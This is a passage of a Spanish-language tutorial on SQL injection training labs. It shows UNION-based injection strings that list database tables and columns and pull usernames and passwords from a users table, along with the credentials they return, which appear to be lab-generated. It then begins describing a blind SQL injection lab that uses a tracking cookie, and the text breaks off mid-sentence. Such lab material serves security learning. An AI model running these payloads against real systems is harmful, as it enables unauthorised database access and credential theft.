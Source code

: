 
### Tablas de una base de datos 

' union SELECT null,table_name FROM information_schema.tables WHERE table_schema='public' -- -


**Resultado**

- users
- products

### Columnas de una tabla de una base de datos 

' union SELECT null,column_name FROM information_schema.columns  WHERE table_schema='public' and table_name='users'-- -

**Resultado**

- email
- password
- username

### Listar el contenido de las columnas de una tabla


' union SELECT null,username||'-'||password FROM public.users-- -

**Resultado**


- wiener-3xl0w0hq87bc29ve4e8z
- carlos-vhjeruhx9kf4yqrmo0hq
- administrator-p1q9m1m3yg1lmnh4l30s






# Inyección SQL ciega con respuestas condicionales

## Laboratorio: Inyección SQL ciega con respuestas condicionales

Este laboratorio contiene una vulnerabilidad de inyección SQL ciega. La aplicación utiliza una cookie de seguimiento para análisis y realiza una consulta SQL que contiene el valor de la cookie enviada.

No se devuelven los resultados de la consulta SQL y no se muestran mensajes de error. Pero la solicitud incluye una Welcome back mensaje en la página si la consulta devuelve alguna fila.

La base de datos contiene una tabla diferente llamada users, con columnas llamadas username y password. Debe aprovechar la vulnerabilidad de inyección SQL ciega para averiguar la contraseña del administrator usuario.

Para resolver el laboratorio, inicie sesión como administrator usuario.


Usamos esta técnica para:
